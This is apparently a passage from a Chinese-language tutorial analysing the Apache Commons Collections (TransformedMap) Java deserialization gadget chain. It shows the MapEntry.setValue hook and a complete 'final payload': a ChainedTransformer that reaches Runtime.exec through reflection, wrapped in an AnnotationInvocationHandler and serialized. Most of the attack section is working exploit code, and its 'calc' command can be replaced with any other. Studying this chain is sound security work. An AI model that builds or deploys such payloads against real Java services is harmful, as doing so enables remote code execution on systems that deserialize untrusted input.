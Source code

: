 * TransformeMap的父类AbstractMapEntryDecorator有一个静态内部类，如下

```java
static class MapEntry extends AbstractMapEntryDecorator {
  private final AbstractInputCheckedMapDecorator parent;
  protected MapEntry(Entry entry, AbstractInputCheckedMapDecorator parent) {
  super(entry);
  this.parent = parent;
}

public Object setValue(Object value) {
  value = this.parent.checkSetValue(value);
  return super.entry.setValue(value);
 }
}
```

##### 入口readObject

* 最终payload

```java
Transformer[] transformers = new Transformer[] {
        //Runtime.class.getMethod('getRuntime').invoke()
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
        new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] { null, new Object[0] }),
        new InvokerTransformer("exec", new Class[] { String.class }, new Object[] { "calc" })
        //获取java.lang.class
};
Transformer transformerChain = new ChainedTransformer(transformers);
//transformerChain.transform("123");


Map innermap = new HashMap();
innermap.put("value", "value");
Map outmap = TransformedMap.decorate(innermap, null, transformerChain);

//通过反射获得AnnotationInvocationHandler类对象
Class cls = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
//通过反射获得cls的构造函数
Constructor ctor = cls.getDeclaredConstructor(Class.class, Map.class);
//这里需要设置Accessible为true，否则序列化失败
ctor.setAccessible(true);
//通过newInstance()方法实例化对象

Object instance = ctor.newInstance(Retention.class, outmap);

//将instance序列化
ByteArrayOutputStream exp = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(exp);
oos.writeObject(instance);
oos.flush();
oos.close();
```
